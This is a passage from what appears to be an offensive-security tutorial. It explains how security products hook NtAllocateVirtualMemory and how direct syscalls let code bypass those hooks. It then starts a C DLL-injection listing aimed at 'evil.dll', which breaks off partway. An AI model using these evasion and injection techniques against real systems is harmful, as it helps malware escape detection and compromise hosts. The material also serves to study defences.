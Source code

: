 Moreover, these security solutions have the authority to examine any memory area designated as executable, scanning for specific patterns or signatures. These hooks, installed in user mode, are typically set up prior to the execution of the system call instruction, which signifies the final stage of a user mode system call function.      

For example, `NtAllocateVirtualMemory` is a system call used to allocate virtual memory. When an application calls `NtAllocateVirtualMemory`, it is asking the operating system to reserve a block of virtual memory for its use.     

Security solutions can place a hook on `NtAllocateVirtualMemory` to monitor how applications are using memory. This can help the security solution detect malicious activities. For example, if an application is allocating a very large amount of memory or if it's allocating memory in a suspicious manner, that could be a sign of a memory-based attack or a memory leak.       

By hooking into `NtAllocateVirtualMemory`, the security solution can inspect these activities in real-time and potentially stop malicious activities before they cause damage. The ability to analyze and interpret the behavior of such function calls is an essential aspect of many host-based security solutions.      

### direct syscalls

Using syscalls directly is one method of bypassing userland hooks. A way to avoid detection by security tools that hook into system calls in user space could be accomplished by creating a customized version of the system call function using assembly language, and then executing this customized function directly from the assembly file.        

### practical example

Let's look at the example from the first part:      

```cpp
/*
hack.c
classic DLL injection example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#pragma comment(lib, "ntdll")

typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(
  HANDLE             ProcessHandle,
  PVOID              *BaseAddress,
  ULONG              ZeroBits,
  PULONG             RegionSize,
  ULONG              AllocationType,
  ULONG              Protect
);

char evilDLL[] = "C:\\temp\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  HMODULE ntdll = GetModuleHandle("ntdll");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

```